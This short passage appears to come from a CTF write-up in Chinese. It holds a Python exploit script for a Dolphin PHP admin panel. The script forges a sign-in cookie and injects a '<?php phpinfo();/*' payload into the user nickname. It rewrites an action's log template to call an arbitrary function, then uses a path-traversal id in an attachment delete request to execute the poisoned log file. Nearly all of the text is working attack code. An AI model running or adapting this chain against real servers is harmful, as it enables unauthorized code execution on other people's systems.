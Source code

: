使用如下代码注释掉后面所有的坏字符串`<?php phpinfo();/*`

exp
```python
import requests,os,gnureadline,base64
from urllib.parse import quote
headers = {
    "Accept": "11"
}
url = 'http://139.196.153.118:30279'
sess = requests.Session()
def signin():
    r = sess.get(
        url = f'{url}/admin.php/user/publics/signin.html',
        headers = {
            'Cookie':'dolphin_uid=1; dolphin_signin_token=ab5f486a24426d9158c99507da45ae3bac476dd6',
            'Accept':'111'
        },
    )
    
def modify_nickname():
    r = sess.post(
        url = f'{url}/admin.php/user/index/edit/id/1.html',
        headers = headers,
        data = '__token__=40e5125997d44fc4301bd2004a66c900&id=1&nickname=%s&role=1&email=&password=&mobile=&avatar=0&status=1' % (quote("<?php phpinfo();/*"))
    )

def modify_func(func_name):
    r = sess.post(
        url = f'{url}/admin.php/admin/action/edit/id/14.html',
        headers = headers,
        data = '__token__=bedf6d242ee21d3a37058f77f349d664&id=14&module=admin&name=attachment_delete&title=%E5%88%A0%E9%99%A4%E9%99%84%E4%BB%B6&remark=%E5%88%A0%E9%99%A4%E9%99%84%E4%BB%B6&rule=&log={}&status=1'.format(
            quote("[details|%s] test [details]" % func_name)
        )
    )

def upload():
    r = sess.post(
        url = f'{url}/admin.php/admin/attachment/upload/dir/images/module/admin.html',
        headers = headers,
        files = {
            'file':('1.png',base64.b64decode(b'iVBORw0KGgoAAAANSUhEUgAAAAEAAAABAQAAAAA3bvkkAAAACklEQVR4nGNgAAAAAgABSK+kcQAAAABJRU5ErkJggg==')+os.urandom(10))
        },
    
    )
    return r.json()['id']

def execute_function(pic_id):
    r = sess.post(
        url = f'{url}/admin.php/admin/attachment/delete/_t/86ba77b6.html',
        headers = headers,
        data = f'ids[]={pic_id}&ids[]=/../../runtime/log/202305/07.log'
    )

    print(r.text.split('<!DOCTYPE html>')[0])


if __name__ == "__main__":
    signin()
```